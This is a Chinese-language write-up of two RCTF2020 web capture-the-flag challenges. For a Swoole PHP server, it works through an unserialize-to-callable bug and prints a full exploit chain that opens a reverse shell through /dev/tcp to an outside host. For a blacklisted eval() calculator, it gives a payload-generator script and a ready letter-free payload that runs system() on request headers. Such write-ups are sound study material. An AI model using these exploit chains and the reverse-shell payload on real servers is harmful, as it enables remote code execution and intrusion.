




# RCTF2020 Web记录

## Swoole

woole是一个异步/协程的php框架，类似node.js。

```php
#!/usr/bin/env php
<?php
Swoole\Runtime::enableCoroutine($flags = SWOOLE_HOOK_ALL);
$http = new Swoole\Http\Server("0.0.0.0", 9501);
$http->on("request",
    function (Swoole\Http\Request $request, Swoole\Http\Response $response) {
        Swoole\Runtime::enableCoroutine();
        $response->header('Content-Type', 'text/plain');
        // $response->sendfile('/flag');
        if (isset($request->get['phpinfo'])) {
            // Prevent racing condition
            // ob_start();phpinfo();
            // return $response->end(ob_get_clean());
            return $response->sendfile('phpinfo.txt');
        }
        if (isset($request->get['code'])) {
            try {
                $code = $request->get['code'];
                if (!preg_match('/\x00/', $code)) {
                    $a = unserialize($code);
                    $a();
                    $a = null;
                }
            } catch (\Throwable $e) {
                var_dump($code);
                var_dump($e->getMessage());
                // do nothing
            }
            return $response->end('Done');
        }
        $response->sendfile(__FILE__);
    }
);
$http->start();
```

漏洞点很明显的反序列化

```php
 $code = $request->get['code'];
 if (!preg_match('/\x00/', $code)) {
 	$a = unserialize($code);
    $a();
    $a = null;
 }
```

这里要先说一个php语言特性，首先是比较常见的就是一个动态函数调用

```php
$a = "phpinfo";
$a();
```

不太常见的就是php数组的一个invoke

```php
class A {
    public function foo() {
        return "bar";
    }
}

$a = new A();
$arr = [$a, "foo"];
echo $arr(); // print "bar"
```

也就是说可以在数组第二项中传入想要调用的第一项中对象的方法


然后根据提示我们就要去除法rogue mysql，但是根据提示中给出的swoole在mysql连接之后的选项均无效



既然mysql不行就得用pdo

看一下文档里的pdo连接方式：

```php
Coroutine\run(function () {
    $pool = new PDOPool((new PDOConfig)
        ->withHost('127.0.0.1')
        ->withPort(3306)
        // ->withUnixSocket('/tmp/mysql.sock')
        ->withDbName('test')
        ->withCharset('utf8mb4')
        ->withUsername('root')
        ->withPassword('root')
    );
    for ($n = N; $n--;) {
        Coroutine::create(function () use ($pool) {
            $pdo = $pool->get();
            $statement = $pdo->prepare('SELECT ? + ?');
            if (!$statement) {
                throw new RuntimeException('Prepare failed');
            }
            $a = mt_rand(1, 100);
            $b = mt_rand(1, 100);
            $result = $statement->execute([$a, $b]);
            if (!$result) {
                throw new RuntimeException('Execute failed');
            }
            $result = $statement->fetchAll();
            if ($a + $b !== (int)$result[0][0]) {
                throw new RuntimeException('Bad result');
            }
            $pool->put($pdo);
        });
    }
});
```

需要用到PDOPool这个类然后调用PDOPool::get()完成连接

所以有一个基本的想法是直接去序列化PDOPool::get然后反序列化就可以了

```php
 $a = new \Swoole\Database\PDOPool((new \Swoole\Database\PDOConfig)
        ->withHost('123.57.240.205')
        ->withPort(3307)
        ->withDbName('test')
        ->withCharset('utf8mb4')
        ->withUsername('root')
        ->withPassword('root')
        ->withOptions([
             \PDO::MYSQL_ATTR_LOCAL_INFILE => 1,
             \PDO::MYSQL_ATTR_INIT_COMMAND => 'select 1'
        ])
    );
  echo serialize([$a,'get']);
```

但是在swoole环境下会报错

```php
PHP Fatal error: Uncaught Exception: Serialization of 'Swoole\Coroutine\Channel' is not allowed in
```

这里错误的原因在于

``PDOPool``继承了``ConnectionPool``，在``ConnectionPool``中找到``$pool``，类型为``Channel``，但是在Swoole4.3.0后的版本后已经将Channel这个类的序列化给移除了，所以可以用``SplDoublyLinkedList()``来替代``$pool``

那么后面直接用反射把 `$pool` 对象中的 `$pool` 成员给替换成 `new \SplDoublyLinkedList()` 就行了

也就是对应的官方writeup中的

```php
$c = new \Swoole\Database\PDOConfig();
$c->withHost('ip');    // your rouge-mysql-server host & port
$c->withPort(3307);
$c->withOptions([
    \PDO::MYSQL_ATTR_LOCAL_INFILE => 1,
    \PDO::MYSQL_ATTR_INIT_COMMAND => 'select 1'
]);

$a = new \Swoole\ConnectionPool(function () { }, 0, '');
changeProperty($a, 'size', 100);
changeProperty($a, 'constructor', $c);
changeProperty($a, 'num', 0);
changeProperty($a, 'pool', new \SplDoublyLinkedList());
changeProperty($a, 'proxy', '\\Swoole\\Database\\PDOPool');
```

然后还看到了一个非预期解

因为前面说了php数组的invoke，所以应该还有其他方法。首先是官方库里封装的一个类 [Swoole\Curl\Handler](https://github.com/swoole/library/blob/master/src/core/Curl/Handler.php)

注意方法``execute``

```php
// https://github.com/swoole/library/blob/master/src/core/Curl/Handler.php#L782
// L782 - L785
if ($client->body and $this->readFunction) {
    $cb = $this->readFunction;
    $cb($this, $this->outputStream, strlen($client->body))
}

```

回溯可以看到 `$this->readFunction` 完全可控，`$this->outputStream` 可以魔改源代码或者用反射来改也可控，那么也就是说找到一个参数表数量 <= 3 的函数传给 `$cb` 即可

这里看到师傅们找到的这样一个函数``array_walk``

```php
array_walk($this,$this->xxx,xxx);
```

还差一点，因为 swlooe 把系统的 `exec` 给改成了 `Swoole\Coroutine\System::exec`，如果参数不对协程会直接退出，所以不能直接把第二个值赋成 `exec`，还需要再改一下：

```php
class B{
    public $a = 123;
    public $exec = "sleep 5";
    public $c = "xxxx";

    public function __construct(){
        // $cb($this, $this->outputStream, strlen($client->body));
        array_walk($this, 'array_walk', 'xxxx');
    }
}

```

这样就可以执行命令了

贴出师傅的EXP:

```php
// Author: Wupco (http://www.wupco.cn/)

// https://github.com/swoole/library/blob/master/src/core/Curl/Handler.php#L309-L319
// delete(L309-L319) (bypass is_resource check) and change class name to Handlep
include('Handler.php');

// bypass %00
function process_serialized($serialized) {
        $new = '';
        $last = 0;
        $current = 0;
        $pattern = '#\bs:([0-9]+):"#';

        while(
            $current < strlen($serialized) &&
            preg_match(
                $pattern, $serialized, $matches, PREG_OFFSET_CAPTURE, $current
            )
        )
        {

            $p_start = $matches[0][1];
            $p_start_string = $p_start + strlen($matches[0][0]);
            $length = $matches[1][0];
            $p_end_string = $p_start_string + $length;

            # Check if this really is a serialized string
            if(!(
                strlen($serialized) > $p_end_string + 2 &&
                substr($serialized, $p_end_string, 2) == '";'
            ))
            {
                $current = $p_start_string;
                continue;
            }
            $string = substr($serialized, $p_start_string, $length);

            # Convert every special character to its S representation
            $clean_string = '';
            for($i=0; $i < strlen($string); $i++)
            {
                $letter = $string{$i};
                $clean_string .= ctype_print($letter) && $letter != '\\' ?
                    $letter :
                    sprintf("\\%02x", ord($letter));
                ;
            }

            # Make the replacement
            $new .= 
                substr($serialized, $last, $p_start - $last) .
                'S:' . $matches[1][0] . ':"' . $clean_string . '";'
            ;
            $last = $p_end_string + 2;
            $current = $last;
        }

        $new .= substr($serialized, $last);
        return $new;

}
$o = new Swoole\Curl\Handlep("http://baidu.com/");
$o->setOpt(CURLOPT_READFUNCTION,"array_walk");
$o->setOpt(CURLOPT_FILE, "array_walk");
$o->exec = array('/bin/bash -c "bash -i >& /dev/tcp/xxxxxxx/9999 0>&1"');
$o->setOpt(CURLOPT_POST,1);
$o->setOpt(CURLOPT_POSTFIELDS,"aaa");
$o->setOpt(CURLOPT_HTTPHEADER,["Content-type"=>"application/json"]);
$o->setOpt(CURLOPT_HTTP_VERSION,CURL_HTTP_VERSION_1_1);

$a = serialize([$o,'exec']);
echo str_replace("Handlep", "Handler", urlencode(process_serialized($a)));

```

## calc

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
    $str = $_GET['num'];
    $blacklist = ['[a-z]', '[\x7f-\xff]', '\s',"'", '"', '`', '\[', '\]','\$', '_', '\\\\','\^', ','];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/im', $str)) {
            die("what are you want to do?");
        }
    }
    @eval('echo '.$str.';');
}
?>
```

过滤比较严格，最关键的把字母、异或、反引号、$等ban了，那么之前常用的无字母数字webshell就不好使了，不过有或运算和与运算还在，那么就可以通过| & ~等构造字母
echo (((10000000000000000000000).(1)){3});



或者



放一个cjm00n师傅的脚本

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

table = list(b'0123456789.-EINF')
dict={}
l=len(table)
temp=0
while temp!=l:
    for j in range(temp,l):
        if ~table[j] & 0xff not in table:
            table.append(~table[j] & 0xff)
            dict[~table[j] & 0xff] = {'op':'~','c':table[j]}
    for i in range(l):
        for j in range(max(i+1,temp),l):
            t = table[i] & table[j]
            if t not in table:
                table.append(t)
                dict[t] = {'op':'&','c1':table[i],'c2':table[j]}
            t = table[i] | table[j]
            if t not in table:
                table.append(t)
                dict[t] = {'op': '|', 'c1': table[i], 'c2': table[j]}
    temp=l
    l=len(table)

table.sort()
def howmake(ch:int) -> str:
    if ch in b'0123456789':
        return '(((1).(' + chr(ch) + ')){1})'
    elif ch in b'.':
        return '(((1).(0.1)){2})'
    elif ch in b'-':
        return '(((1).(-1)){1})'
    elif ch in b'E':
        return '(((1).(0.00001)){4})'
    elif ch in b'I':
        return '(((999**999).(1)){0})'
    elif ch in b'N':
        return '(((999**999).(1)){1})'
    elif ch in b'F':
        return '(((999**999).(1)){2})'

    d = dict.get(ch)
    if d:
        op = d.get('op')
        if op == '~':
            c = '~'+howmake(d.get('c'))
        elif op =='&':
            c = howmake(d.get('c1')) + '&' + howmake(d.get('c2'))
        elif op == '|':
            c = howmake(d.get('c1')) + '|' + howmake(d.get('c2'))
        return f'({c})'
    else:
        print('error')
        return

if __name__ == '__main__':
    while 1:
        payload = input('>')
        result = []
        for i in payload:
            result.append(howmake(ord(i)))
        result='.'.join(result)
        print(f'({result})')
```

思路就是先得到可打印字符的ascii的构造方式，然后根据传入的字符的ascii，在0123456789.-E这几个数的基础上递归拼接



然后构造system(next(getalheaders()))执行命令

```
(((((1).(0)){1})|((~(((1).(4)){1}))&((((1).(2)){1})|(((1).(0.00001)){4})))).((((1).(0)){1})|((~(((1).(4)){1}))&((((1).(8)){1})|(((1).(0.00001)){4})))).((((1).(0)){1})|((~(((1).(4)){1}))&((((1).(2)){1})|(((1).(0.00001)){4})))).((((1).(0)){1})|((((1).(0.00001)){4})&(~(((1).(1)){1})))).((((1).(0.00001)){4})|((((1).(0)){1})&(((1).(0.1)){2}))).((((1).(-1)){1})|(((1).(0.00001)){4})))((((((1).(0.1)){2})|((((1).(0.00001)){4})&(~(((1).(1)){1})))).((((1).(0.00001)){4})|((((1).(0)){1})&(((1).(0.1)){2}))).((((1).(0)){1})|((~(((1).(5)){1}))&((((1).(8)){1})|(((1).(0.00001)){4})))).((((1).(0)){1})|((((1).(0.00001)){4})&(~(((1).(1)){1})))))((((((1).(0.00001)){4})|((((1).(2)){1})&(((1).(0.1)){2}))).((((1).(0.00001)){4})|((((1).(0)){1})&(((1).(0.1)){2}))).((((1).(0)){1})|((((1).(0.00001)){4})&(~(((1).(1)){1})))).(((((1).(0)){1})&(((1).(0.1)){2}))|((((1).(0.00001)){4})&(~(((1).(4)){1})))).(((((1).(0)){1})&(((1).(0.1)){2}))|((~(((1).(1)){1}))&((((1).(8)){1})|(((1).(0.00001)){4})))).(((((1).(0)){1})&(((1).(0.1)){2}))|((~(((1).(1)){1}))&((((1).(8)){1})|(((1).(0.00001)){4})))).(((((1).(0)){1})&(((1).(0.1)){2}))|((~(((1).(5)){1}))&((((1).(8)){1})|(((1).(0.00001)){4})))).((((1).(0.00001)){4})|((((1).(0)){1})&(((1).(0.1)){2}))).(((((1).(0)){1})&(((1).(0.1)){2}))|((((1).(0.00001)){4})&(~(((1).(4)){1})))).(((((1).(0)){1})&(((1).(0.1)){2}))|((((1).(0.00001)){4})&(~(((1).(1)){1})))).((((1).(0.00001)){4})|((((1).(0)){1})&(((1).(0.1)){2}))).((((1).(0)){1})|((~(((1).(5)){1}))&((((1).(2)){1})|(((1).(0.00001)){4})))).((((1).(0)){1})|((~(((1).(4)){1}))&((((1).(2)){1})|(((1).(0.00001)){4})))))()));

```

即可